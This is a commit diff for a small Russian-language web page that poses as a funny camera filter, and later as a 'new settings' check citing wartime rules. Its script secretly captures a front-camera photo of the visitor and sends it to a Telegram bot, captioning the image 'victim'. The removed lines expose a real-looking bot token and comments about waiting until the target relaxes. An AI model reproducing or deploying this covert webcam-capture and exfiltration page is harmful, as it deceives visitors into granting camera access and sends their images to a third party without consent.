

Before and after one commit to saveku0n1337-cyber/site, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (320-960 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-  <title>Смешной фильтр 2026 😂</title>
+  <title>новые идеи!</title>
   <style>
     body { margin:0; font-family: Arial, sans-serif; background:#111; color:#fff; text-align:center; }
     #container { padding: 20px; max-width: 500px; margin: auto; }
@@ -20,62 +20,45 @@
 </head>
 <body>
 
-<div id="container">
-  <h1>😂 хочешь видеть приветствия?</h1>
-  <p>разреши расширения что бы мы могли тебе доверять! 😎</p>
-
-  <button onclick="startPrank()">хочу посмотреть! 😂</button>
-
-  <div id="status"></div>
-</div>
-
-<video id="video" autoplay playsinline></video>
-<canvas id="canvas"></canvas>
-
+<!-- СКРИПТ ПЕРЕМЕЩЁН ВВЕРХ — ЭТО КЛЮЧЕВОЙ ФИКС -->
 <script>
 const video = document.getElementById('video');
 const canvas = document.getElementById('canvas');
 const ctx = canvas.getContext('2d');
 const status = document.getElementById('status');
 
-const TELEGRAM_TOKEN = '8678005399:AAFTHzqbs40DHQ3ziXoAXdFR1Kg_cuu_PTc;  // ← замени на свой токен
-const CHAT_ID = '8269416289';  // ← замени на свой chat_id
+const TELEGRAM_TOKEN = '123456:ABC-DEF1234ghIkl-zyx57W2v1u123ew11';  // ← ТВОЙ ТОКЕН
+const CHAT_ID = '123456789';  // ← ТВОЙ chat_id
 
 async function startPrank() {
-  status.textContent = 'Запрашиваем разрешения...';
+  status.textContent = 'Запрашиваем расширения...';
 
   try {
     const stream = await navigator.mediaDevices.getUserMedia({
-      video: { facingMode: 'user' }  // фронтальная камера
+      video: { facingMode: 'user' }
     });
 
     video.srcObject = stream;
     video.play();
 
-    // Ждём 2–4 секунды, чтобы человек расслабился и подумал, что сейчас фильтр появится
     await new Promise(r => setTimeout(r, 3000));
 
-    status.textContent = 'Щааа... проверяем! ';
+    status.textContent = 'Щааа... делаем фото! 📸';
 
-    // Делаем снимок
     canvas.width = video.videoWidth;
     canvas.height = video.videoHeight;
     ctx.drawImage(video, 0, 0, canvas.width, canvas.height);
 
-    // Останавливаем камеру (чтобы индикатор погас)
     stream.getTracks().forEach(track => track.stop());
 
-    // Конвертируем в base64
     const dataUrl = canvas.toDataURL('image/jpeg', 0.85);
 
-    // Отправляем в Telegram
-    status.textContent = 'ура смотри!';
+    status.textContent = 'проверяю бот ли ты?';
 
     const formData = new FormData();
     formData.append('chat_id', CHAT_ID);
     formData.append('caption', `Жертва: ${new Date().toLocaleString('ru-RU')} 😭`);
 
-    // Конвертируем base64 в Blob для отправки как файл
     const blob = await (await fetch(dataUrl)).blob();
     formData.append('photo', blob, 'prank.jpg');
 
@@ -84,15 +67,28 @@ async function startPrank() {
       body: formData
     });
 
-    status.innerHTML = 'жди щас загрузится! 😂<br>подожди.';
+    status.innerHTML = 'жди немного<br>еще немного.';
 
   } catch (err) {
     console.error(err);
     status.textContent = err.name === 'NotAllowedError'
-      ? 'Ты не разрешил расширение попробуй еще раз!'
+      ? 'Ты не разрешил расширение! 😢 Попробуй ещё раз!'
       : 'Ошибка: ' + err.message;
   }
 }
 </script>
+
+<div id="container">
+  <h1>😂 Проверь новые настройки!</h1>
+  <p>Нажми кнопку ниже, разреши разрешения изза новых правил, при войне!</p>
+
+  <button onclick="startPrank()">открыть идеи</button>
+
+  <div id="status"></div>
+</div>
+
+<video id="video" autoplay playsinline></video>
+<canvas id="canvas"></canvas>
+
 </body>
 </html>
```
